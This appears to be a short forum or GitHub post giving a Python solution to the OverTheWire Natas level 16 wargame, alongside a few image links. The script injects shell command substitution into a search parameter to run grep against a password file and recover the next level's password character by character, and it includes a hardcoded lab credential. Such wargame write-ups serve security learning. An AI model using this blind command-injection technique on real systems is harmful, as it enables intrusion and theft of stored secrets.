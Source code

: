 ![image](https://github.com/user-attachments/assets/5d7dfee1-7f46-43c9-8e01-5f0f573f4412)
![image](https://github.com/user-attachments/assets/2c39bc51-a2e7-4073-8153-68bcb4130758)


import requests  
from requests.auth import HTTPBasicAuth  
  
auth=HTTPBasicAuth('natas16', 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo')  
  
filteredchars = ''  
passwd = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
for char in allchars:  
 r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ' + char + ' /etc/natas_webpass/natas17)', auth=auth)  
   
 if 'doomed' not in r.text:  
  filteredchars = filteredchars + char  
  print(filteredchars)  
  
for i in range(32):  
 for char in filteredchars:  
  r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ^' + passwd + char + ' /etc/natas_webpass/natas17)', auth=auth)  
    
  if 'doomed' not in r.text:  
   passwd = passwd + char  
   print(passwd)  
   break  


this script will work.

![Uploading image.png…]()
